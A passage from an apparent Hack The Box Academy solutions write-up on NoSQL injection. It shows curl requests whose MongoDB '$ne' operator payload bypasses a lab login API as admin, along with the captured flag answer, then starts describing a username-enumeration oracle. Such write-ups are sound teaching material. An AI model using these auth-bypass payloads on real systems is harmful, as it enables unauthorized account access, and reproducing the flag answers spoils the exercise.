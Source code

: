 ```
┌─[us-academy-2]─[10.10.14.207]─[htb-ac413848@htb-wxm3pmi2mf]─[~]
└──╼ [★]$ curl -w "\n" -s -X POST "http://138.68.182.130:30143/api/login" -H 'Content-Type: application/json' -d '{"username": {"$eq": "pentest"}, "password": {"$eq": "pentest"}}'

{"success":true,"username":"pentest","role":"user","token":"NTM2NjViM2lqYjUya2pxMzQ2NDV3Nm40MzU2bjQzNTYyCg=="}
```

Instead of using the `$eq` operator, students need to use a different one that will make the API query the database to return all users that are not named "pentest" nor having the password "pentest"; the `$ne` operator will be used, attaining the flag `HTB{7dd8c551035ea609a7f4fda61d4a23de}`:

Code: shell

```shell
curl -w "\n" -s -X POST "http://STMIP:STMPO/api/login" -H 'Content-Type: application/json' -d '{"username": {"$ne": "pentest"}, "password": {"$ne": "pentest"}}'
```

```
┌─[us-academy-2]─[10.10.14.207]─[htb-ac413848@htb-wxm3pmi2mf]─[~]
└──╼ [★]$ curl -w "\n" -s -X POST "http://138.68.182.130:30143/api/login" -H 'Content-Type: application/json' -d '{"username": {"$ne": "pentest"}, "password": {"$ne": "pentest"}}'

{"success":true,"username":"admin","role":"admin","token":"HTB{7dd8c551035ea609a7f4fda61d4a23de}"}
```

Answer: `HTB{7dd8c551035ea609a7f4fda61d4a23de}`

# Skills Assessment II

## Question 1

### "Gain authenticated access to the website and submit the flag on the homepage."

After spawning the target machine, students need to visit its website's webpages and start manually fuzzing its endpoints for any injection vulnerabilities. However, prior to that, gaining situational awareness via intel gathering is mandatory.

For the `/login` webpage, students will notice that when any username entered is not "bmdyy", the error message differs by a full stop; for example, when trying the username "doesNotExist", the error message does not contain a full stop at the end of the sentence:

![[HTB Solutions/CWEE/z. images/00001ad5b54a6db2c90d913ba9325560_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/901c99fd89bfd3f9749716302a113a01_MD5.jpg]]

However, when trying the username "bmdyy", the response message contains a full stop at the end, this is important later when developing the oracle, as the injection vulnerability is within the `/login` form submitted:

![[HTB Solutions/CWEE/z. images/c6c9c7243cd09b0c3b8d0d7a6875c770_MD5.jpg]]
